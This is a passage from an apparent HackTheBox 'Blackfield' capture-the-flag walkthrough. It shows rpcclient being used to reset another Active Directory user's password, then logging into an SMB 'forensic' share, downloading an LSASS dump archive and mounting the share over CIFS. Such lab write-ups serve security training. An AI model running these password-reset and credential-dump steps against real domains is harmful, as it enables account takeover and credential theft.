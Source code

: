 ```ruby
SeChangeNotifyPrivilege 		0:23 (0x0:0x17)
SeRemoteShutdownPrivilege 		0:24 (0x0:0x18)
SeUndockPrivilege 		0:25 (0x0:0x19)
SeSyncAgentPrivilege 		0:26 (0x0:0x1a)
SeEnableDelegationPrivilege 		0:27 (0x0:0x1b)
SeManageVolumePrivilege 		0:28 (0x0:0x1c)
SeImpersonatePrivilege 		0:29 (0x0:0x1d)
SeCreateGlobalPrivilege 		0:30 (0x0:0x1e)
SeTrustedCredManAccessPrivilege 		0:31 (0x0:0x1f)
SeRelabelPrivilege 		0:32 (0x0:0x20)
SeIncreaseWorkingSetPrivilege 		0:33 (0x0:0x21)
SeTimeZonePrivilege 		0:34 (0x0:0x22)
SeCreateSymbolicLinkPrivilege 		0:35 (0x0:0x23)
SeDelegateSessionUserImpersonatePrivilege 		0:36 (0x0:0x24)
rpcclient $> 

```

> we can change the password of other users.

```ruby

rpcclient $> setuserinfo2
Usage: setuserinfo2 username level password [password_expired]
result was NT_STATUS_INVALID_PARAMETER
rpcclient $>

```

* read this blog [reset-ad-user-password-with-linux](https://malicious.link/post/2017/reset-ad-user-password-with-linux/)

> **setuserinfo2 audit2020 23 'xdevo512@@'**

```ruby

╭─xdev05@nic3One ~/Documents/HTB/BlackFild  
╰─➤  smbclient \\\\10.10.10.192\\forensic -U audit2020                                                                                                         1 ↵
Enter WORKGROUP\audit2020's password: 
Try "help" to get a list of possible commands.
smb: \> 

```

* now let's download the lsass.ZIP file.

![](https://i.ibb.co/7yyFSpy/lsasszip.png)

> this is unintended solution, you got TIMOUT error when download the lsass.zip, so you need to mount this share.

* we can use cifs.utility to mount this share.

> **sudo mount -t cifs //10.10.10.192/forensic /mnt/forensic -o user=audit2020**
